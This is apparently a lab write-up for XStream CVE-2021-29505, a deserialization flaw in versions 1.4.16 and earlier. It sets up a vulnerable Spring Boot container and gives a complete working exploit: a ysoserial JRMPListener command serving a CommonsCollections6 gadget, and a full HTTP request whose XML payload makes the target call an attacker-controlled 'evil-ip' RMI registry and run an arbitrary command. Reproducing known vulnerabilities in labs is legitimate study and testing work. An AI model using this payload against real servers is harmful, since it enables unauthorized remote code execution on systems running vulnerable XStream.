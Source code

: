 # XStream CVE-2021-29505 분석 코드 및 결과

XStream은 object들을 시리얼화하거나 되돌리는 간단한 라이브러리임.

XStream uses a blocklist mechanism when parsing XML text which is utilized to defend against deserialization vulnerabilities, but in 1.4.16 and earlier, blocklists are incomplete and attackers could use `sun.rmi.registry.RegistryImpl_Stub` to make an RMI request and execute arbitrary commands finally.

XStream은 역직렬화 취약점을 방어하는 데 사용되는 XML 텍스트를 구문 분석할 때 차단 목록 메커니즘을 사용하지만 1.4.16 및 이전 버전에서는 차단 목록이 불완전하며 공격자가 'sun.rmi.registry.RegistryImpl_Stub'을 사용하여 RMI 요청을 만들고 마침내 임의 실행을 할 수 있음.

## Vulnerable Environment

Start a Springboot + XStream 1.4.16 server.

```
docker compose up -d
```

Once the environment is started, you can send the following request to `http://your-ip:8080` to test if the server has started successfully

![](1.png)

## POC

First of all, you have to start a malicious RMI Registry on evil server using the JRMPListener of [ysoserial](https://github.com/frohoff/ysoserial).

```
java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "touch /tmp/success"
```

This RMI Registry, upon receiving the request, returns a malicious serialized object constructed with `CommonsCollections6` gadget.

Then, send the XML POC of CVE-2021-29505, replace **evil-ip** with address of evil RMI Registry.

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3169

<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>evil-ip</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>evil-ip</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

The malicious RMI registry receives the RMI request successfully.

![](2.png)

Enter into the XStream container, ``touch /tmp/success`` has been successfully executed:

![](3.png)

Significantly, POC from [official website][1] is wrong, you must not use it.

[1]: https://x-stream.github.io/CVE-2021-29505.html
